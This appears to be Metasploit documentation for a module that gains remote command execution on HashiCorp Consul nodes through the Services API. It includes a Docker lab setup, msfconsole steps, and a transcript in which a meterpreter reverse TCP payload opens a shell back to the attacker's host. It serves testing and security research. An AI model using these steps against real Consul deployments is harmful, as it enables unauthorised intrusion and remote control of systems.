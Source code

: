 ## Vulnerable Application

### Description

This module exploits Hashicorp Consul's Services API to gain remote command execution on a Consul node.

The exposure of the Services API depends on the `enable_script_checks` option. This option is opt-in for Consul nodes operators.

#### References

* Consul Services API - https://www.consul.io/api/agent/service.html
* Inspiration from Garfield PoC - https://github.com/torque59/Garfield

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
docker run -d --name=consul_bootstrap_server consul agent -server -client=172.17.0.1 -bootstrap -data-dir /tmp/consul
sleep 2

docker run -d --name=consul_server_1 consul agent -server -client=172.17.0.2 -data-dir /tmp/consul
sleep 2
docker exec -t consul_bootstrap_server consul join -http-addr="172.17.0.1:8500" 172.17.0.2

docker run -d --name=consul_server_2 consul agent -server -client=172.17.0.3 -data-dir /tmp/consul
sleep 2
docker exec -t consul_bootstrap_server consul join -http-addr="172.17.0.1:8500" 172.17.0.3

docker run -d -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true}' consul agent -ui -client=172.17.0.4 -retry-join=172.17.0.1

sleep 4
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="172.17.0.1:8500"
```

You should observe something similar to the excerpt below when running the script:

```
sudo ./launch.sh
[+] Launching consul instances...
3ca869f66e7dda89f7e239a8d2ae6e477af699a20c90f2d1e2043dc90bdfa78c
fa16999754063a23687809c9dbdbabb5e8d45a54652e6e2023c67fd933d83826
Successfully joined cluster by contacting 1 nodes.
ecc11744530e63e8d9cb349e98811e2b88d67dd09a81f7a7e8fee129b72d17cf
Successfully joined cluster by contacting 1 nodes.
949d81b0c47b004d456b1db8c5452bbebe08fe99127f0bc365d417a56fada540
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
3ca869f66e7d  172.17.0.1:8301  alive   server  1.0.6  2         dc1  <all>
ecc11744530e  172.17.0.3:8301  alive   server  1.0.6  2         dc1  <all>
fa1699975406  172.17.0.2:8301  alive   server  1.0.6  2         dc1  <all>
949d81b0c47b  172.17.0.4:8301  alive   client  1.0.6  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your running docker containers** (so be careful if you use docker containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps | grep -v CONTAINER | cut -d' ' -f1`; do sudo docker stop $h && sudo docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_service_exec`
  4. Do: `set RHOST 172.17.0.4`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_service_exec
msf5 exploit(multi/misc/consul_service_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_service_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_service_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_service_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating service 'BBBDX'
[*] Service 'BBBDX' successfully created.
[*] Waiting for service 'BBBDX' script to trigger
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Removing service 'BBBDX'
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
